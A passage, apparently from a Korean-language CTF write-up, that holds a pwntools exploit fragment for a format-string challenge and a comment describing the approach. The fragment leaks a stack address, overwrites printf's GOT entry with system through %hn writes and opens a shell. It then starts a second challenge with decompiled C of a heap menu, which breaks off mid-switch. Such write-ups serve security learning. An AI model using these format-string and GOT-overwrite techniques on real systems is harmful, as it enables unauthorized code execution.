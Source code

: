 ```python
t.sendline("%7$p")
t.recvline()
stack = int(t.recv(10),16)
log.success(hex(stack))
ret = stack - 0x90
'''

p = "aa" + p32(pgot) + p32(pgot+2)
p += "%" + str(sys1-10) + "c%13$hn"
p += "%" + str(sys2-sys1) + "c%14$hn"
t.sendline(p)
t.sendline('/bin/sh\x00')

t.interactive()
```

exit_got -> main_fgets 계속 돌리고 

leak -> printf_got (system overwrite) 이런식으로 풀었는데 립시 맞추는데 좀 고생했다.. 립시 없이 풀 수 있는건지 잘모르겠다 ㅠㅠ 나는 그것밖에 안보였기에… 

<br>

# pwnable2 (Jendy's)

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int *v3; // rsi
  const char *v4; // rdi
  int v6; // [rsp+1Ch] [rbp-14h]
  const char *v7; // [rsp+20h] [rbp-10h]
  unsigned __int64 v8; // [rsp+28h] [rbp-8h]

  v8 = __readfsqword(0x28u);
  setbuf(stdin, 0LL);
  v3 = 0LL;
  setbuf(stdout, 0LL);
  v4 = (const char *)32;
  v7 = (const char *)malloc(0x20uLL);
  while ( 1 )
  {
    print_menu(v4, v3);
    v3 = &v6;
    __isoc99_scanf("%d%*c", &v6);
    switch ( v6 )
    {
      case 1:
        v4 = v7;
        add_name((__int64)v7);
        break;
      case 2:
        v4 = v7;
        add_item((__int64)v7);
        break;
      case 3:
        v4 = v7;
        remove_item((__int64)v7);
        break;
      case 4:
        v4 = v7;
        view_order((__int64)v7);
        break;
      case 5:
```